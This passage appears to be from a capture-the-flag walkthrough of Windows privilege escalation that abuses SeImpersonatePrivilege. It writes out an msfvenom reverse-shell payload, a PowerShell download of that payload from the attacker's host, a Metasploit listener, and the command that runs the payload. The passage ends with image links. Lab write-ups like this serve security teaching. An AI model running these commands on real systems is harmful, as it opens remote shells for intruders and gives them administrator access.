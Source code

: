 ```powershell
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```

We got a bunch of privileges, the one that interests us the most is `SeImpersonatePrivilege`, with this privilege enabled, we can impersonate the real administrator and retrieve the root flag, in order to do this, we can use `incognito` from `metasploit`, so, we need to get a meterpreter shell.

Let's begin by generating our shell, we can use msfvenom since there's no AV we need to bypass:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.14.21.28 LPORT=9001 -f psh -o revshell.ps1
```

Ok, time to get the exploit on the machine, we can use `cerutil` or a simple Powershell command:

```powershell
Invoke-WebRequest -Uri "http://10.14.21.28:8000/revshell.ps1" -OutFile "revshell.ps1"
```

Once we got our file, we need to start our listener on metasploit, we'll use multi handler:

```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 9001; exploit"
```

Once our listener is set, we can use the exploit:

```
.\revshell.ps1
```

![Pasted image 20250718171346.png](../../IMAGES/Pasted%20image%2020250718171346.png)

![Pasted image 20250718171349.png](../../IMAGES/Pasted%20image%2020250718171349.png)
